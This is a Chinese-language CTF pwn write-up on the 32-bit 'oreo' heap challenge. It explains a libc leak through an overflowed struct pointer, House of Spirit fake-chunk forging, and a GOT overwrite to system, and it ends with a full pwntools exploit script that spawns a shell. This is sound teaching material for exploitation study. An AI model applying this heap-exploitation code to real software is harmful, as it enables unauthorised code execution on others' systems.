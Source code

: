 ```yaml
---
title: orea
date: 2023-01-02 19:54:26
categories: 
- pwn_wp
tags: 
- pwn
- heap
- house_of_xxx

---
```


House of Spirit，32位的堆题

<!-- more -->

## orea

通过做题学习一下House of Spirit。

这是一个32位的堆题。

结构体rifle

```c
struct rifle
{
    char description[0x19];
    char name[0x1b]
    rifle* pre;
}
```

主要的漏洞在new功能处，在写入description和name时均有溢出，可以写入0x38byte，借此可以控制指针pre。

通过控制pre指针为__isoc99_scanf的got表地址-0x19，使用show_rifles功能可以输出其got表项的内容，从而泄露libc。

之后便是利用House of Spirit，来申请fake chunk到notice附近，通过修改notice获得任意写。

伪造fake chunk重点是要绕过free的检查，这里fake chunk的构造可以选择0x0804A2A0处，可以通过修改count来修改size，并且该chunk的地址也对齐了，同时next chunk的size可以通过leave_rifles进行改写，原来的notice指向0x0804A2C0所以可以写到后面。

![fake](./oreo/fake.jpg)

构造好fake chunk后，先利用溢出改写pre指针指向fake chunk，然后调用order进行释放。由于其LIFO的特点，我们下一次malloc即可malloc到fake chunk。notice就在user data部分，直接写入description即可改写notice实现任意写。

得到任意写后可以改写__isoc99_scanf的GOT表项为system。现在只要在Action: 后面输入/bin/sh即可get shell。

exp:

```python
from pwn import*
context(log_level='debug',os='linux',arch='i386')
elf=ELF("./oreo2")
libc=ELF("./libc-2.23.so")
p=process("./oreo2",stdin=PTY)#有了这个才行
#By default, a pipe is used. A pty can be used instead by setting this to PTY
#默认情况下通过管道输入，让stdin=PTY可以使用一个伪终端输入，借此可以recv()更多？
#不加stdin=PTY只能recv()到Exit!\n

def add(name, descr):
	p.recvuntil('Action: ')
	p.sendline('1')
	p.recvuntil("name: ")
	p.sendline(name)
	p.recvuntil("description: " )
	p.sendline(descr)

def show_rifles():
	p.recvuntil("Action: ")
	p.sendline("2")
	p.recvuntil("Name: ")

def free():
	p.recvuntil("Action: ")
	p.sendline("3")

def leave(message):
	p.recvuntil("Action: ")
	p.sendline("4")
	p.recvuntil("order: ")
	p.sendline(message)

def debug():
	gdb.attach(p)
	pause()

#print(hex(elf.got['puts']))
sscanf=0x0804A258

#leak libc
payload1='a'*0x1b+p32(sscanf-0x19)
add(payload1,'aaaa')
show_rifles()

p.recvuntil("Name: ")
#print(u32(p.recv(4)))
libcbase=u32(p.recv(4))-libc.sym['__isoc99_sscanf']
print("[*]libcbase: {:}".format(hex(libcbase)))

#use House of Spirit to overwrite notice

fake_chunk=0x0804A2A0


for i in range(0x40-1):#add count
	add('a','b')

payload2='a'*0x1b+p32(fake_chunk+0x8)
add(payload2,'a1ph0nse')

msg='\x00'*0x24+p32(0x41)
leave(msg)#overwrite the next chunk of fake chunk

free()


add('asd',p32(elf.got['__isoc99_sscanf']))#malloc fake chunk and overwrite __isoc99_scanf


#get shell
msg2=libcbase+libc.sym['system']

leave(p32(msg2))#overwrite __isoc00_scanf to system

p.recvuntil('Action: ')
p.sendline('/bin/sh\x00')


#debug()

p.interactive()
```